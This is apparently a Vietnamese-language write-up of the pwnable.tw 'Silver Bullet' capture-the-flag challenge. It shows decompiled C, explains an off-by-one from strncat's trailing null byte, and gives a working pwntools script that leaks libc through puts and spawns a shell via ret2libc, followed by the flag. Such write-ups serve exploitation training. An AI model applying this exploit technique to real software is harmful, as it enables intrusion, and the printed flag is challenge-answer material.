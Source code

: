 # Silver Bullet 

## ida 

- main


```c 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  int Werewolf[2]; // [esp+0h] [ebp-3Ch] BYREF
  char bullet[48]; // [esp+8h] [ebp-34h] BYREF
  int v7; // [esp+38h] [ebp-4h]

  init_proc();
  v7 = 0;
  memset(bullet, 0, sizeof(bullet));
  Werewolf[0] = 2147483647;
  Werewolf[1] = (int)"Gin";
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        while ( 1 )
        {
          menu();
          v3 = read_int();
          if ( v3 != 2 )
            break;
          power_up(bullet);
        }
        if ( v3 > 2 )
          break;
        if ( v3 != 1 )
          goto LABEL_15;
        create_bullet(bullet);
      }
      if ( v3 == 3 )
        break;
      if ( v3 == 4 )
      {
        puts("Don't give up !");
        exit(0);
      }
LABEL_15:
      puts("Invalid choice");
    }
    if ( beat((int)bullet, (int)Werewolf) )
      return 0;
    puts("Give me more power !!");
  }
}
``` 

- create_bullet

```c 
int __cdecl create_bullet(char *bullet)
{
  unsigned int size; // [esp+0h] [ebp-4h]

  if ( *bullet )
    return puts("You have been created the Bullet !");
  printf("Give me your description of bullet :");
  read_input(bullet, 48u);
  size = strlen(bullet);
  printf("Your power is : %u\n", size);
  *((_DWORD *)bullet + 12) = size;
  return puts("Good luck !!");
}
``` 

- power_up

```c 
int __cdecl power_up(char *bullet)
{
  char power[48]; // [esp+0h] [ebp-34h] BYREF
  size_t size; // [esp+30h] [ebp-4h]

  size = 0;
  memset(power, 0, sizeof(power));
  if ( !*bullet )
    return puts("You need create the bullet first !");
  if ( *((_DWORD *)bullet + 12) > 47u )
    return puts("You can't power up any more !");
  printf("Give me your another description of bullet :");
  read_input(power, 48 - *((_DWORD *)bullet + 12));
  strncat(bullet, power, 48 - *((_DWORD *)bullet + 12));
  size = strlen(power) + *((_DWORD *)bullet + 12);
  printf("Your new power is : %u\n", size);
  *((_DWORD *)bullet + 12) = size;
  return puts("Enjoy it !");
}
``` 

- beat

```c 
int __cdecl beat(int bullet, int Werewolf)
{
  if ( *(_BYTE *)bullet )
  {
    puts(">----------- Werewolf -----------<");
    printf(" + NAME : %s\n", *(const char **)(Werewolf + 4));
    printf(" + HP : %d\n", *(_DWORD *)Werewolf);
    puts(">--------------------------------<");
    puts("Try to beat it .....");
    usleep(0xF4240u);
    *(_DWORD *)Werewolf -= *(_DWORD *)(bullet + 48);
    if ( *(int *)Werewolf <= 0 )
    {
      puts("Oh ! You win !!");
      return 1;
    }
    else
    {
      puts("Sorry ... It still alive !!");
      return 0;
    }
  }
  else
  {
    puts("You need create the bullet first !");
    return 0;
  }
}
```

## Analysis and Exploit
- chall cho ta 3 option, 1 là tạo 1 bullet, 2 là tăng dame cho bullet , 3 là đánh boss, cuối cùng là exit
- tại option 1 tạo cho ta bullet có dame bằng strlen() ta nhập vào, tối đa là 48
- option 2 cho phép ta nhập thêm dame rồi nối chuỗi với bullet bằng hàm strncat(), tối đa là 48 - bullet 
- option 3 là lấy dame ta có đi đánh boss, boss có name là "GIN" và heap = 2147483647, nhưng mà dame tối đa cho ta chỉ có  48 thì đánh đến bao giờ mới chết boss
- nếu đọc sơ qua mà ko debug thì rất khó thấy bug trong chall này
- bug nhằm ở hàm strncat() vì sau khi nỗi chuỗi xong thì hàm sẽ cho thêm 1 byte null ở cuối => off byte one
- ta debug thử xem sao , lần đầu ta nhập 30byte a, sau đó ta nhập 18byte, lúc này xuất hiện bug off byte one rồi ta nhập thêm 4 byte xem ntn 

![image](https://github.com/gookoosss/CTF/assets/128712571/67bc9826-2ccb-47f5-84c6-0cd19da253e0)

![image](https://github.com/gookoosss/CTF/assets/128712571/cef257c4-fd80-4bf8-91e6-e0c94cd76745)


- xuất hiện 1 byte lạ là '%' và dame của ta tăng đột ngột lên 1633771813, lúc này thì thừa sức đánh boss rồi
- giết được boss rồi thì ta chỉ cần ret2libc như bình thường là lấy được shell 

![image](https://github.com/gookoosss/CTF/assets/128712571/3e67d9c1-6c76-4c9f-a535-d0e626f8eb3b)

## script 

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./silver_bullet_patched")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe
p = remote('chall.pwnable.tw', 10103)
p = process([exe.path])

gdb.attach(p, gdbscript = '''
b*0x08048a19
b*0x08048924
c
''')

input()

p.sendlineafter(b'choice :', b'1')
p.sendlineafter(b'bullet :', b'a'*30) 
p.sendlineafter(b'choice :', b'2')
p.sendlineafter(b'bullet :', b'a'*18) 
p.sendlineafter(b'choice :', b'2')


pop_edi_ebp = 0x08048a7a 
payload = b'a'*7 + p32(exe.plt.puts) + p32(exe.sym.main) + p32(exe.got.puts)
p.sendlineafter(b'bullet :', payload)
p.sendlineafter(b'choice :', b'3')
p.sendlineafter(b'choice :', b'3')
p.recvuntil(b'Oh ! You win !!\n')
libc_leak = u32(p.recv(4))
libc.address  = libc_leak - 0x5f140
print(hex(libc_leak))
print(hex(libc.address))

p.sendlineafter(b'choice :', b'1')
p.sendlineafter(b'bullet :', b'a'*30) 
p.sendlineafter(b'choice :', b'2')
p.sendlineafter(b'bullet :', b'a'*18) 
p.sendlineafter(b'choice :', b'2')
payload = b'a'*7 + p32(libc.sym.system) + p32(next(libc.search(b'/bin/sh\0'))) + p32(next(libc.search(b'/bin/sh\0')))
p.sendlineafter(b'bullet :', payload)
p.sendlineafter(b'choice :', b'3')
p.sendlineafter(b'choice :', b'3')
p.interactive()

# FLAG{uS1ng_S1lv3r_bu1l3t_7o_Pwn_th3_w0rld}
```

## Flag 

FLAG{uS1ng_S1lv3r_bu1l3t_7o_Pwn_th3_w0rld}
